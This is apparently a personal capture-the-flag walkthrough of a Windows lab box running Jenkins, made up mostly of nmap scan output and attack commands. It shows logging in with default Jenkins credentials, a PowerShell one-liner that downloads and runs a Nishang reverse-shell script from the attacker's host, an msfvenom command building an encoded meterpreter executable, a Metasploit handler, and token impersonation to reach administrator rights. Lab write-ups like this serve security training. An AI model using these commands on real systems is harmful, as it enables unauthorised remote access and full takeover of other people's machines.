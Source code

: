 └──╼ $nmap -A -T4 --script vuln -p- -oN initial.nmap 10.10.60.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 14:28 UTC
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.60.95
Host is up (0.10s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: Microsoft-IIS/7.5
| vulners: 
|   cpe:/a:microsoft:internet_information_services:7.5: 
|     	PACKETSTORM:180580	10.0	https://vulners.com/packetstorm/PACKETSTORM:180580	*EXPLOIT*
|     	MSF:AUXILIARY-DOS-WINDOWS-FTP-IIS75_FTPD_IAC_BOF-	10.0	https://vulners.com/metasploit/MSF:AUXILIARY-DOS-WINDOWS-FTP-IIS75_FTPD_IAC_BOF-	*EXPLOIT*
|     	CVE-2010-3972	10.0	https://vulners.com/cve/CVE-2010-3972
|     	SSV:20122	9.3	https://vulners.com/seebug/SSV:20122	*EXPLOIT*
|     	CVE-2010-2730	9.3	https://vulners.com/cve/CVE-2010-2730
|     	SSV:20121	4.3	https://vulners.com/seebug/SSV:20121	*EXPLOIT*
|     	PACKETSTORM:180584	4.3	https://vulners.com/packetstorm/PACKETSTORM:180584	*EXPLOIT*
|     	MSF:AUXILIARY-DOS-WINDOWS-HTTP-MS10_065_II6_ASP_DOS-	4.3	https://vulners.com/metasploit/MSF:AUXILIARY-DOS-WINDOWS-HTTP-MS10_065_II6_ASP_DOS-	*EXPLOIT*
|_    	CVE-2010-1899	4.3	https://vulners.com/cve/CVE-2010-1899
|_http-csrf: Couldn't find any CSRF vulnerabilities.
3389/tcp open  ssl/ms-wbt-server?
|_ssl-ccs-injection: No reply from server (TIMEOUT)
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /robots.txt: Robots file
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find  any stored XSS vulnerabilities.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 576.27 seconds

system is blatantly running a webservice on an alt port 8080

nmap doesnt tell me about any reverse shells on 8080 so we had to try logging in

***unfortunately I navigated to the 10.10.60.95:8080/robots.txt file but didnt check the main page 10.10.60.95:8080 to see it was hosting jenkins

***the first flag was solved by googling the default uname and password for jenkins lol

***next we were instructed using nishang was a good idea so I put it on my desktop and hosted an http server in that directory to access the exploits

sudo ufw allow 8181
sudo ufw allow 4444

┌─[user@parrot]─[~/Desktop/nishang-master/Shells]
└──╼ $python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 (http://0.0.0.0:8080/) ...

netcat -lvnp 4444

Initial upload to jenkins
powershell iex (New-Object Net.WebClient).DownloadString(‘http://10.23.80.154:8181/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.23.80.154 -Port 4444

flag was on user desktop

┌─[user@parrot]─[~]
└──╼ $msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.23.80.154 LPORT=4444 -f exe -o name.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: name.exe

made msfvenom payload

[msf](Jobs:0 Agents:0) >> use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set HOST 10.23.80.154
[!] Unknown datastore option: HOST. Did you mean LHOST?
HOST => 10.23.80.154
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 10.23.80.154
LHOST => 10.23.80.154
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 4444
LPORT => 4444
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 10.23.80.154:4444 

started TCP handler for meterpreter

once in the challenge has you find a flag in the system

use incognito 

**list_tokens -g**

which shows the impersonate_token "BUILTIN\Administrators"  is available

 run the desired process such as the flag by migrating to a priviledged process

for example with "tasklist"

 find the PID of spooler and just

migrate 1219 

which enables me to migrate to the spooler service and then you can just 

cat C:\Windows\System32\config\root.txt

ooted the system PWNed